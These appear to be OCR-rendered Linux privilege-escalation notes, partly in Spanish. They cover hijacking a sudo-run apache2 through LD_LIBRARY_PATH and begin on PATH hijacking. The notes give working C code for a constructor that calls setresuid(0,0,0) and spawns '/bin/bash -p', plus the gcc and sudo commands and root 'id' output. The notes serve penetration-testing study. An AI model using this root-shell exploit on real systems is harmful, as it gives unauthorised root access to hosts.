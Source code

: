 The ldd command can be used to print the shared libraries used by a program:

$ ldd /usr/sbin/apache2

By creating a shared library with the same name as one used by a program, and setting LD_LIBRARY_PATH to its parent directory, the program will load our shared library instead.

Run ldd against the apache2 program file:

Hijacking shared objects using this method is hit or miss. Choose one from the list and try it (libcrypt.so.1 seems to work well).

$ ldd /usr/sbin/apache2
 linux-vdso.so.1 => (0x00007fff063ff000)
 ...
 libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f7d4199d000) libdl.so.2 => /lib/libdl.so.2 (0x00007f7d41798000) libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f7d41570000) /lib64/ld-linux-x86-64.so.2 (0x00007f7d42e84000)

Create a file (library_path.c) with the following contents:

```
#include <stdio.h>
#include <stdlib.h>
```

static void hijack() __attribute__((constructor));

void hijack() { unsetenv("LD_LIBRARY_PATH"); setresuid(0,0,0); system("/bin/bash -p");

}

1. Compile library_path.c into libcrypt.so.1:

   $ gcc -o libcrypt.so.1 -shared -fPIC library_path.c

2. Run apache2 using sudo, while setting the LD_LIBRARY_PATH environment variable to the current path (where we compiled library_path.c):

$ sudo LD_LIBRARY_PATH=. apache2
 \# id
 uid=0(root) gid=0(root) groups=0(root)

#### Modificaciones Path:



PATH

Compilar un fichero ejecutable
Renombrarlo si hace falta
Colocarlo en una posicion donde podamos escribir
Añadir la localización al PATH, pero que proceda a todos los otros paths definidos



The PATH environment variable contains a list of directories where the shell should try to find programs.

If a program tries to execute another program, but only specifies the program name, rather than its full (absolute) path, the shell will search the PATH directories until it is found.
